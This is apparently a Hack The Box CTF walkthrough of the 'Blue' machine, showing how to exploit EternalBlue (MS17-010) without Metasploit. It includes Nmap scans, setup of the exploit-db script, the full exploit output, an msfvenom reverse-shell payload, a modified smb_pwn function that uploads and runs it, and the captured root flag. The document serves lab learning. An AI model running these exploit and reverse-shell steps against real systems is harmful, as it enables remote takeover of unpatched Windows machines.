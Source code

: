﻿---
title: Blue Walkthrough:Exploiting CVE-2017-0144
date: 2024-10-08 09:00:00 +0530
categories:
- Capture the Flags
- Windows
tags:
- HTB
- smb
- standalone
description: Walkthrough of HTB's Blue machine without using Metasploit
---
# Blue

*Blue, while possibly the simplest machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.*


### Recon

Started the recon with an Nmap scan:

```bash
sudo nmap -T4 -sS -n -Pn --disable-arp-ping --stats-every=5s -F 10.10.10.40
```

- **-T4**: Sets the timing template for faster scanning.
- **-sS**: Performs a TCP SYN scan.
- **-n**: Disables DNS resolution.
- **-Pn**: Skips host discovery (pinging).
- **-F**: Scans the top TCP ports.

The initial scan reveals several open ports, including:

- 135/tcp open  msrpc
- 139/tcp open  netbios-ssn
- 445/tcp open  microsoft-ds (Samba)
- Multiple high-numbered ports (49152-49157) open for Microsoft services.

Next, I performed a more detailed scan to identify the operating system and versions of the services:

```bash
sudo nmap -T4 -A -Pn -n --disable-arp-ping 10.10.10.40 --source-port 53 -p 135,139,445,49152,49153,49154,49155,49156,49157

sudo nmap -v --script vuln,exploit -p 135,139,445 10.10.10.40
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

This identified the target as **Windows 7 Professional 7601 Service Pack 1**, making it susceptible to the EternalBlue exploit (MS17-010).

### Exploitation:

MS17-010 is a critical vulnerability in SMBv1 (CVE-2017-0144). Exploiting it allows remote code execution with SYSTEM-level privileges.

#### Preparing the Exploit:

First, I copied the exploit script from the `exploitdb` directory to my working directory:

```bash
(kaliã‰¿kali)-[~/Red_Team/HTB/Blue]
â””â”€$ cp /usr/share/exploitdb/exploits/windows/remote/42315.py ./4315.py
```

The exploit is written in Python 2.7, and when I tried to run it, syntax issues arose due to the differences between Python 2.7 and Python 3. To resolve this, I created a Python 2.7 virtual environment:

1. **Download pip** for Python 2.7:

    ```bash
    wget -c https://bootstrap.pypa.io/pip/2.7/get-pip.py
    python2.7 get-pip.py
    ```

2. **Verify the pip version** and set up the virtual environment:

    ```bash
    > python2 -m pip --version
    pip 20.3.4 from /home/kali/.local/lib/python2.7/site-packages/pip (python 2.7)
    > python2 -m pip install -U pip setuptools
    > python2 -m pip install virtualenv   
    > python2.7 -m virtualenv myenv
    ```

3. **Activate the virtual environment** and install the required dependencies, like `impacket`, which is essential for running the exploit smoothly.

4. **Downloading Dependencies** - Found a note of this missing library in the exploit,

    ```bash
    EDB Note: mysmb.py can be found here ~ https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py

    > wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
    ```

#### Running the Exploit:

With the environment set up, I executed the modified script using Python 2.7:

```bash
â”€â”€(myenv)â”€(kaliã‰¿kali)-[~]
â””â”€$ python Red_Team/HTB/Blue/4315.py 10.10.10.40 netlogon
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80041f95e0
SESSION: 0xfffff8a009713aa0
FLINK: 0xfffff8a00a10a088
InParam: 0xfffff8a00a10415c
MID: 0x2103
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```

The output indicated a successful exploitation process.

### Knowledge Share:

SMB servers use *named pipes* to communicate with various services for authentication:

- **Domain-joined SMB Servers** use the *Netlogon* service to communicate with the domain controller for authentication.
- **Standalone SMB Servers** interact with the local *SAM (Security Account Manager)* database via the `\samr` pipe to verify credentials.
- The **Local Security Authority (LSA)** manages security policies and access controls through its communication with the SMB server.

For testing purposes, running the command with random "username" and "password" can help in exploring these interactions during an exploit attempt.

### Custom Exploit:

For a deeper understanding, I modified the EternalBlue exploit script to upload a custom reverse shell and execute it:

1. **Creating the executable payload** using `msfvenom`:

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=8080 -f exe > Benign.exe
    ```

2. **Modifying the script** to transfer and execute the payload:

    ```python
    def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        print('Creating file C:\\Benign.exe on the target')
        smb_send_file(smbConn, '/home/kali/Red_Team/HTB/Blue/Benign.exe', 'C', '/Benign.exe')
        service_exec(conn, r'cmd /c C:\\Benign.exe')
    ```

3. **Running the script** gave me a reverse shell back to my machine, maintaining SYSTEM access.

### Post-Exploitation:

After successful exploitation, I had SYSTEM-level access:

```bash
C:\Windows\system32> whoami
nt authority\system
```

This means complete control over the machine, including access to any files. Retrieving the flag:

```bash
C:\Users\Administrator\Desktop> type root.txt
734ac76b26b651a6658354572badeb63
```

### Conclusion:

The Blue machine on Hack The Box is a great example of how a seemingly outdated vulnerability like EternalBlue can still pose a significant risk if left unpatched. Proper patch management and disabling legacy protocols like SMBv1 are critical for maintaining secure networks.

## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References
- [Exploit-DB: MS17-010 EternalBlue Exploit](https://www.exploit-db.com/exploits/42315)
---


